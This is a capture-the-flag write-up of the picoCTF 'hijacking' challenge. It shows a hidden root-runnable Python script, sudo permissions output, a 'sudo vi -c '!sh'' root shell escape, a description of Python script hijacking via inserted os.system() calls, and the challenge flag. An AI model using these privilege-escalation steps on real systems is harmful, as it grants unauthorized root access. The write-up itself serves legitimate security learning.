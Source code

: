 ## Challenge: hijacking

## Category: Binary Exploitation

### Description: Getting root access can allow you to read the flag. Luckily there is a python file that you might like to play with.

### Hints:

#### 1. Check for Hidden files

#### 2. No place like Home:)

Logging into the server, I first ran ls -la and saw a hidden file labeled .server.py, suggesting it is a Python script. Here are its contents:

```python
import base64
import os
import socket
ip = 'picoctf.org'
response = os.system("ping -c 1 " + ip)
#saving ping details to a variable
host_info = socket.gethostbyaddr(ip)
#getting IP from a domaine
host_info_to_str = str(host_info[2])
host_info = base64.b64encode(host_info_to_str.encode('ascii'))
print("Hello, this is a part of information gathering",'Host: ', host_info)
```

In short, it just collects the IP address of the picoCTF website...not much. After much hammering the server with different ideas and failing, I idscovered a vulnerability on the server. I typed in sudo -l, which shows what operations I can perform with sudo privileges. Here is what the command output:

> Matching Defaults entries for picoctf on challenge:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

> User picoctf may run the following commands on challenge:
    (ALL) /usr/bin/vi
    (root) NOPASSWD: /usr/bin/python3 /home/picoctf/.server.py

So, I have permission to run sudo on vi, a text editor, and I can run .server.py with python3 as root with sudo. I then found a small command that I could use to pop a root shell:

```bash sudo vi -c '!sh'```

To break the command down, vi has a -c argument in which u can supply a command, which in this case is popping a root shell with !sh. Thus, I found the flag file in /root/.flag.txt and got the flag.

Now, when I got the flag, it seemed that I might have used an inintented solution, as it suggests Python library hijacking, which is editing a Python library file or script in order to execute malicious code. The contents of sudo -l suggest I have to power to execute the .server.py script under root conditions, so the intended way seems to be to insert some code in any Python library or script to spit out the flag. I thus implemented some os.system() commands into .server.py, and boom, there's the flag.

#### References: [1](https://medium.com/analytics-vidhya/python-library-hijacking-on-linux-with-examples-a31e6a9860c8)

### Flag: picoCTF{pYth0nn_libraryH!j@CK!n9_4c188d27}

Solved by giggsterpuku
